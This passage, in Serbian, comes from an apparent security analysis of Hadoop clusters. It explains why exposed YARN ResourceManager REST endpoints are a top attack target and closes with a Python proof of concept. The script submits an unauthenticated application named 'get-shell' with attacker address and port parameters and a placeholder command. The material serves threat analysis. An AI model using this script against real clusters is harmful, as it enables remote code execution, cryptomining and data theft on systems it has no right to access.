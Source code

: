 - Velika površina za napad.

To su ključni razlozi zašto _YARN_ pristupne tačke, pre svega javno dostupne, postaju tako lako ranjive, i zašto ovaj napad predstavlja izbor broj jedan u _Hadoop_ klasterima. Stoga je reč o trivijalnoj, ali kritičnoj ranjivosti.

__Zanimljivosti__

Ako se razmatra napad na javno dostupne pristupne tačke, sa pretpostavljenim [klasterom](#referentna_arhitektura), onda se mogu pronaći sledeće zanimljivosti. Poznato je da je u pitanju najzastupljenija klasa napada u _Hadoop_ klasterima, pri čemu se svakog momenta izvrši 300 000 pokušaja realizacije. Svi javno dostupni _Hadoop_ klasteri bivaju aktivno traženi od strane specijalizovanih pretraživača kao što su _Shodan_ ili _Fofa_ [[6]](#[6]). Pitanje je vremena kada će biti pronađeni i napadnuti.

Kao što se može primetiti pregledom stabla napada na [slici 2](#slika_2), realizacijom ovog napada ostvaruje se događaj pokretanje maliciozne aplikacije. Cilj napadača će biti predodređen tipom maliciozne aplikacije. U praksi se najčešće sreću _botnet_, _crypto mining_ i _ransomware_ aplikacije, pri čemu gotovo uvek dolazi i do krađe podataka [[9]](#[9]). Da bi opis ove klase napada bio zanimljiviji i realističniji, fokus će biti na pokretanju _crypto mining_ aplikacije. Uz napomenu da je krađa podataka daleko najozbiljnija pretnja po jedan _Hadoop_ klaster, a osnovni cilj napadača često se širi, obuhvatajući sve kritične resurse i servise kojima ima pristup, uz mogućnost pivotiranja [[10]](#[10])[[11]](#[11]). Pokretanje malicioznih aplikacija je kritična pretnja kojom se u zavisnosti od tipa aplikacije može narušiti bilo koje bezbednosno svojstvo resursa ili servisa. Rizik za realizacijom ove pretnje je kritičan s obzirom na visok negativan uticaj pretnje i visoku verovatnoću izvršavanja.


## Realizacija napada
Osnovni _payload_ predstavlja `.py` skripta, pomoću koje je moguće realizovati napad [[12]](#[12]). 
Od parametara je potrebno uneti:
- `scheme`, _URL_ šemu _REST API_ servisa.
- `target`, adresu _REST API_ servisa.
- `port`, port _REST API_ servisa.
- `attacker_address`, adresu napadača.
- `attacker_port`, port adrese na kom napadač sluša.

Trenutno je reč o direktnom obraćanju _ResourceManager_ čvoru.
``` python
import requests

scheme = 'http' 
target = 'resource-manager'
port = '8088'
base_url = f"{scheme}://{target}:{port}/ws/v1/cluster/apps/" 
url = base_url + "new-application"
resp = requests.post(url)
app_id = resp.json()['application-id']
url = base_url
attacker_address = '192.168.1.5'
attacker_port = '9999'

data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': 'malicious command',
        },
    },
    'application-type': 'YARN', 
}

requests.post(url, json=data)
```
